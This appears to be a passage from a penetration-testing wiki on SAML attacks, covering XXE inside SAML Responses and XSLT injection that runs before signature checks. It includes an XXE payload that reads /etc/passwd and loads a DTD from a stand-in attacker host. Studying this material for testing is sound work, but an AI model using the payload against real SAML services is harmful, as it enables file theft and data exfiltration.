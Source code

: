 ### Original Paper

For more information about this attack read the original paper in [https://www.usenix.org/system/files/conference/usenixsecurity12/sec12-final91.pdf](https://www.usenix.org/system/files/conference/usenixsecurity12/sec12-final91.pdf)

## XXE

If you don't know which kind of attacks are XXE, please read the following page:

{% page-ref page="../xxe-xee-xml-external-entity.md" %}

Due to the fact that SAML Responses are deflated and base64’d **XML documents**, we can test for **XXE** by manipulating the XML document sent as the SAML Response. Example:

```markup
<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY    file SYSTEM "file:///etc/passwd">
   <!ENTITY dtd SYSTEM "http://www.attacker.com/text.dtd" >]>
  <samlp:Response ... ID="_df55c0bb940c687810b436395cf81760bb2e6a92f2" ...>
  <saml:Issuer>...</saml:Issuer>
  <ds:Signature ...>
    <ds:SignedInfo>
      <ds:CanonicalizationMethod .../>
      <ds:SignatureMethod .../>
      <ds:Reference URI="#_df55c0bb940c687810b436395cf81760bb2e6a92f2">...</ds:Reference>
    </ds:SignedInfo>
    <ds:SignatureValue>...</ds:SignatureValue>
[...]
```

### Tool

You can also use the Burp extension [**SAML Raider**](https://portswigger.net/bappstore/c61cfa893bb14db4b01775554f7b802e) to generate the POC from a SAML request to test for possible XXE vulnerabilities.

## XSLT via SAML

For more information about XSLT go to:

{% page-ref page="../xslt-server-side-injection-extensible-stylesheet-languaje-transformations.md" %}

Extensible Stylesheet Language Transformation \(XSLT\) is a Turing-complete language for transforming XML documents into other document types such as HTML, JSON, or PDF. An important aspect to note here is that **the attack doesn’t require a valid signature to succeed**. The reason for this is that **the XSLT transformation occurs before the digital signature is processed for verification**. Basically, we need a signed SAML Response to perform the attack, but the signature can be self-signed or invalid.

![xslt](https://epi052.gitlab.io/notes-to-self/img/saml/xslt.png)
